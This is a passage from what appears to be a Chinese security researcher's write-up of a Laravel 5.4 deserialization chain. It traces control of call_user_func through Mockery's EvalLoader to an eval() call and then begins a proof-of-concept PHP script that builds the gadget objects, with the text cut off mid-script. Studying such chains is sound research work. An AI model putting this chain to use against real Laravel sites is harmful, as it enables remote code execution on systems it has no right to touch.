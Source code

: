 ![image-20210811105240564](images/40.png)

# 后续

其实这最后的一条链子也可以不这么做

![image-20210811105624257](images/41.png)

在这里,call_user_func()的方法名是可控的,那么久可以去回调任意类的任何方法

只要有危险函数的方法都有可能

看师傅的复现,找到的是

```
laravel5-4\vendor\mockery\mockery\library\Mockery\Loader\EvalLoader.php
```

![image-20210811105932908](images/42.png)

这里load函数将MockDefinition类定义为变量$definition,其实传过来的还是`$connection`

我们想在eval()这儿实现rce,跟进MockDefinition中的getCode()

![image-20210811121040045](images/43.png)

直接返回一个可控制的变量

那么只要我们不进入if循环即可

看看if循环的条件,判断类存不存在

跟进getClassName()

![image-20210811121147075](images/44.png)

$this->config是可控的,那就可以随便去调用一个类中的getName()方法

```
laravel5-4\vendor\laravel\framework\src\Illuminate\Session\Store.php
```

这里可用的getName()方法有点多我就随便找到一个

![image-20210811122817543](images/45.png)

那我只要控制$this->name的值为一个不存在的类就可以绕个if循环了

poc

```
<?php
namespace Illuminate\Bus{
    use Mockery\Loader\EvalLoader;
    class Dispatcher{
    protected $queueResolver;

    public function __construct(){
        $this->queueResolver = [new EvalLoader(),'load'];
    }
}
}
namespace Illuminate\Broadcasting{
    use Illuminate\Bus\Dispatcher;
    use Mockery\Generator\MockDefinition;
    class BroadcastEvent{
        public $connection;

        public function __construct($code){
            $this->connection  = new MockDefinition($code);
```